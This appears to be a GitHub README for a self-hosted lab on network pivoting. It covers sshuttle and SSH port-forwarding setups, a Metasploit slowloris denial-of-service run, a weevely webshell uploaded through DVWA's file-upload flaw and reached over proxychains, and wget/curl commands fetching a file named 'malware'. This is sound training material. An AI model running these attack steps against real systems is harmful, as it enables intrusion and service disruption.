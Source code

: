 # NM-Lab-Network-pivoting

This is a Lab for practicing network pivoting.

## Prerequisite

### Network architecture

The following is our network settings for doing this Lab.

#### Local (Attacker)
* OS : MacOS or Kali Linux  
* IP : 192.168.2.105 (For example) (Connect with Internet)

#### VirtualBox VM1 (SSH Server)  
* OS : Ubuntu server 20.04  
* (Adapter1 橋接網路卡Bridge enp0s3) IP : 192.168.2.113 (For example)  
* (Adapter2 內網Internal enp0s8) IP : 192.168.1.1 (For example)  

#### VirtualBox VM2 (Target Machine)
* OS : Ubuntu server 20.04.2 or Kali Linux  
* (Adapter2 內網 enp0s8) IP : 192.168.1.100 (For example)

#### VirtualBox VM3 (Optional)
* OS : Metasploitable2 (For running DVWA)  
(You can also install DVWA on the target machine, but it is quite a long process for installing DVWA alone.)  
(I personally take this as my guideline to install DVWA https://medium.datadriveninvestor.com/setup-install-dvwa-into-your-linux-distribution-d76dc3b80357)
* (內網 eth0) IP : 192.168.1.101 (For example)  

Step 0 :  
下載然後導入ubuntu server到VirtualBox  
https://ubuntu.com/download/server  

Step 1 :  
完成VirtualBox的網路介面卡設定  
確認連接內網的網路卡擁有相同的名稱  

Step 2 :  
登陸兩(三)台要連接內網的VM之後，使用  
`$ ifconfig -a`  
確認內網網路卡的名稱 (In our case, enp0s8)  
然後使用指令  
`$ sudo ifconfig enp0s8 192.168.1.1 netmask 255.255.255.0 up`  
開啟網路卡  
192.168.1.1 可以自己設定 (不同的機器要不同 192.168.1.1 192.168.1.100 in our case)  
不過注意每一次開機都要設定  

這樣即完成網路設定  
可以用ping或ifconfig指令確認  

### Enviroment & Installation

#### Local (Attacker)
Ssuttle (For pivoting)  
https://github.com/sshuttle/sshuttle  
Nmap (For scanning)(option)  
https://nmap.org/book/inst-macosx.html  
Metasploit (For using slowloris DOS attack exploit module)  
https://www.metasploit.com    

#### VirtualBox VM1 (SSH Server)  

SSH service need to be installed  
HTTP service (Apache web service) need to be installed  
root account for sshuttle  
normal user account for port forwarding  

#### VirtualBox VM2 (Target machine)

ssh service need to be installed  
http service (Apache web service) need to be installed  

## Ways of Pivoting
To confirm the results of pivoting, a http server has been hosted on target machine at port 8000 using `python -m SimpleHTTPServer`. We can use `http://192.168.1.100:8000` to connect it from internal network  

### sshuttle  

Open terminal  
`$ sshuttle -r user@192.168.2.113 192.168.1.0/24`  
Need root privilege for both local and the ssh server  

### Dynamic port forwarding
On pivot (SSH server):  
`$ ssh user@192.168.2.113 -D 127.0.0.1:21000 -N`  
You can use any available port on localhost  

### Reverse remote port forwarding
#### Attacker
Step 1 :   
Create a new dedicated user  
```
$ sudo useradd sshpivot --no-create-home --shell /bin/false  
$ sudo passwd sshpivot  
```
Step 2 :  
Add `/bin/false` to `/etc/shells`  

Step 3 :  
`sudo systemctl restart ssh`  

Step 4 :  
Request http://127.0.0.1:14000 to reach http://192.168.1.100:8000 after pivot connected  

#### Pivot (SSH server)
`$ ssh sshpivot@192.168.2.105 -R 127.0.0.1:14000:192.168.1.100:8000 -N`  

## Ways of Attack

### DOS

Open terminal  
Run metasploitable  
Somewhere in the /opt/metasploit-framework/bin/ if you are using MacOS (High Sierra) like me  
`$ ./msfconsole`  
(Some configurations if first time use)  
```
msf6 > search slowloris  
msf6 > use auxiliary/dos/http/slowloris  
msf6 auxiliary(dos/http/slowloris) > options  
msf6 auxiliary(dos/http/slowloris) > set sockets 200
```
(the number of `sockets` doesn't really matter)
```
msf6 auxiliary(dos/http/slowloris) > set rhost 192.168.1.100  
msf6 auxiliary(dos/http/slowloris) > run  
```

Now you should see it working !!!  

可以在target machine上下指令確認有沒有被DOS  
`$ systemctl status`  

### Reverse shell
Use DVWA's file upload vulnerability to open a reverse shell (webshell). [Reference](https://medium.com/blacksecurity/557d6392eefe)  

Step 1 :  
`weevely generate %password% %~/shell.php%`  

Step 2 :  
Upload `shell.php`  

Step 3 :  
`proxychains weevely http://192.168.1.101/dvwa/hackable/uploads/shell.php %password%`  

Note that we must use `proxychains` to connect with proxy. Add `socks4 127.0.0.1 21000` to `/etc/proxychains4.conf`.  

### Downloading other malwares


* From internal network  
  There is a file called malware on VM2 (target machine), we want to download it from other machine in local area network. We can use commands like  
  `$ wget http://192.168.1.100:8000/malware`  
  or  
  `$ curl -O http://192.168.1.100:8000/malware`  

* From external network  
  If target machine can access external network, we can use similar command as above. If target only has access to internal network, "reverse pivoting" to connect to attacker. However, reverse pivoting might not success if we use the webshell we described previously.  
